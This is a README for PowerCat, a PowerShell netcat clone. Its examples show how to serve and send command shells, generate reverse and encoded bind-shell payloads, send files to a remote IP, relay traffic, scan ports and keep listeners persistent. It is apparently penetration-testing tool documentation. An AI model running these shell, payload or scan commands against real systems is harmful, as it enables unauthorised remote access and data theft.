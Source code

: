 PowerCat
========
```powershell
Write-Warning 'PowerCat is under construction. Check back soon for updates.'
Write-Warning 'I will remove this warning when the code is functional.'
```
A PowerShell TCP/IP swiss army knife that's interoperable with the original netcat.

Installation
------------
PowerCat is packaged as a PowerShell module.  First you need to import the module before you can use its functions.
###
```powershell
    # Import the functions from downloaded psd1 File:
    Import-Module PowerCat.psd1
```
### Parameters:
```powershell    
    Start-PowerCat # Listener
    
    -Mode           # Defaults to Tcp, can also specify Udp or Smb        [String]
    -Port           # The port to listen on.                              [Int]
	-PipeName       # Name of pipe to listen on.                          [String]
	
    -Relay          # Format: "<Mode>:<IP>:<Port/Pipe>"                   [String]
    -Execute        # Execute a console process or powershell.            [Switch]
    -SendFile       # Filepath of file to send.                           [String]
    -ReceiveFile    # Filepath of file to be written.                     [String]
    -Disconnect     # Disconnect after connecting.                        [Switch]
    -KeepAlive      # Restart after disconnecting.                        [Switch]
    -Timeout        # Timeout option. Default: 60                         [Int]
	
	Connect-PowerCat # Client
	
    -Mode           # Defaults to Tcp, can also specify Udp or Smb        [String]
	-RemoteIp       # IPv4 address of host to connect to.                 [String]
    -Port           # The port to connect to.                             [Int]
	-PipeName       # Name of pipe to connect to.                         [String]
	
    -Relay          # Format: "<Mode>:<IP>:<Port/Pipe>"                   [String]
    -Execute        # Execute a console process or powershell.            [Switch]
    -SendFile       # Filepath of file to send.                           [String]
    -ReceiveFile    # Filepath of file to be written.                     [String]
    -Disconnect     # Disconnect after connecting.                        [Switch]
    -KeepAlive      # Restart after disconnecting.                        [Switch]
    -Timeout        # Timeout option. Default: 60                         [Int]
```
Basic Connections
-----------------------------------
By default, PowerCat uses TCP and reads/writes from/to the console.
###
```powershell
    # Basic Listener:
    Start-PowerCat -Port 443
        
    # Basic Client:
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 443
```
File Transfer
-------------
PowerCat can be used to transfer files using the -SendFile and -ReceiveFile parameters.
###
```powershell
    # Send File:
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 443 -SendFile C:\pathto\inputfile
        
    # Recieve File:
    Start-PowerCat -Port 443 -ReceiveFile C:\pathto\outputfile
```
Shells
------
PowerCat can be used to send and serve shells using the -Execute parameter.
###
```powershell
    # Serve a shell:
    Start-PowerCat -Port 443 -Execute
        
    # Send a cmd Shell:
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 443 -Execute
```
UDP and SMB
-----------
PowerCat supports more than sending data over TCP. 
###
```powershell
    # Send Data Over UDP:
    Start-PowerCat -Mode Udp -Port 8000
        
    # Send Data Over SMB:
    Start-PowerCat -Mode Smb -PipeName PowerCat
```
Relays
------
Relays in PowerCat are similar to netcat relays, but you don't have to create a file or start a second process. You can also relay data between connections of different protocols.
###
```powershell
    # UDP Listener to TCP Client Relay:
    Start-PowerCat -Mode Udp -Port 8000 -Relay tcp:10.1.1.16:443
        
    # TCP Listener to UDP Client Relay:
    Start-PowerCat -Port 8000 -Relay udp:10.1.1.16:53
        
    # TCP Client to Client Relay
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 9000 -Relay tcp:10.1.1.16:443
        
    # TCP Listener to SMB Listener Relay
    New-PowerCat -Listener -Port 8000 -Relay smb:PowerCat
```
Generate Payloads
-----------------
Payloads can be generated using New-PowerCatPayload. 
###
```powershell
    # Generate a reverse tcp payload which connects back to 10.1.1.15 port 443:
    New-PowerCatPayload -Client -RemoteIp 10.1.1.15 -Port 443 -Execute 
        
    # Generate a bind tcp encoded command which listens on port 8000:
    New-PowerCatPayload -Encoded -Listener -Port 8000 -Execute
```
Misc Usage
----------
PowerCat can also be used to perform port-scans, and start persistent listeners.
###
```powershell
    # Basic TCP port scan:
    1..1024 | ForEach-Object { Connect-PowerCat -RemoteIp 10.1.1.10 -Port $_ -Timeout 1 -Verbose -Disconnect }
    
    # Basic UDP port scan:
    1..1024 | ForEach-Object { Connect-PowerCat -Mode Udp -RemoteIp 10.1.1.10 -Port $_ -Timeout 1 -Verbose }
        
    # Persistent listener:
    Start-PowerCat -Port 443 -SendFile C:\pathto\inputfile -KeepAlive
```
